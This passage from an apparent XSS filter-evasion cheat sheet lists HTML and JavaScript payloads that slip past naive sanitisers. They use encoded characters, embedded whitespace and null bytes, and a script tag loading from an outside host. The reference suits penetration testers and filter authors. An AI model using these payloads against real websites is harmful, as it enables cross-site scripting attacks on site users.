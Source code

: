 <h2><span id="Hexadecimal_HTML_character_references_without_trailing_semicolons" class="mw-headline">Hexadecimal HTML character references without trailing semicolons</span></h2>
This is also a viable XSS attack against the above string $tmp_string =~ s/.*\&amp;#(\d+);.*/$1/; which assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters).
<pre>&lt;IMG SRC=&amp;#x6A&amp;#x61&amp;#x76&amp;#x61&amp;#x73&amp;#x63&amp;#x72&amp;#x69&amp;#x70&amp;#x74&amp;#x3A&amp;#x61&amp;#x6C&amp;#x65&amp;#x72&amp;#x74&amp;#x28&amp;#x27&amp;#x58&amp;#x53&amp;#x53&amp;#x27&amp;#x29&gt;
</pre>
<h2><span id="Embedded_tab" class="mw-headline">Embedded tab</span></h2>
Used to break up the cross site scripting attack:
<pre>&lt;IMG SRC="jav	ascript:alert('XSS');"&gt;
</pre>
<h2><span id="Embedded_Encoded_tab" class="mw-headline">Embedded Encoded tab</span></h2>
Use this one to break up XSS :
<pre>&lt;IMG SRC="jav&amp;#x09;ascript:alert('XSS');"&gt;
</pre>
<h2><span id="Embedded_newline_to_break_up_XSS" class="mw-headline">Embedded newline to break up XSS</span></h2>
Some websites claim that any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. See the ascii chart for more details. The following four XSS examples illustrate this vector:
<pre>&lt;IMG SRC="jav&amp;#x0A;ascript:alert('XSS');"&gt;
</pre>
<h2><span id="Embedded_carriage_return_to_break_up_XSS" class="mw-headline">Embedded carriage return to break up XSS</span></h2>
(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I've seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):
<pre>&lt;IMG SRC="jav&amp;#x0D;ascript:alert('XSS');"&gt;
</pre>
<h2><span id="Null_breaks_up_JavaScript_directive" class="mw-headline">Null breaks up JavaScript directive</span></h2>
Null chars also work as XSS vectors but not like above, you need to inject them directly using something like Burp Proxy or use %00 in the URL string or if you want to write your own injection tool you can either use vim (^V^@ will produce a null) or the following program to generate it into a text file. Okay, I lied again, older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hypen control char). But the null char %00is much more useful and helped me bypass certain real world filters with a variation on this example:
<pre>perl -e 'print "&lt;IMG SRC=java\0script:alert(\"XSS\")&gt;";' &gt; out
</pre>
<h2><span id="Spaces_and_meta_chars_before_the_JavaScript_in_images_for_XSS" class="mw-headline">Spaces and meta chars before the JavaScript in images for XSS</span></h2>
This is useful if the pattern match doesn't take into account spaces in the word "javascript:" -which is correct since that won't render- and makes the false assumption that you can't have a space between the quote and the "javascript:" keyword. The actual reality is you can have any char from 1-32 in decimal:
<pre>&lt;IMG SRC=" &amp;#14;  javascript:alert('XSS');"&gt;
</pre>
<h2><span id="Non-alpha-non-digit_XSS" class="mw-headline">Non-alpha-non-digit XSS</span></h2>
The Firefox HTML parser assumes a non-alpha-non-digit is not valid after an HTML keyword and therefor considers it to be a whitespace or non-valid token after an HTML tag. The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace. For example "&lt;SCRIPT\s" != "&lt;SCRIPT/XSS\s":
<pre>&lt;SCRIPT/XSS SRC="http://xss.rocks/xss.js"&gt;&lt;/SCRIPT&gt;
</pre>
Based on the same idea as above, however,expanded on it, using Rnake fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc...) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:
<pre>&lt;BODY onload!#$%&amp;()*~+-_.,:;?@[/|\]^`=alert("XSS")&gt;
</pre>
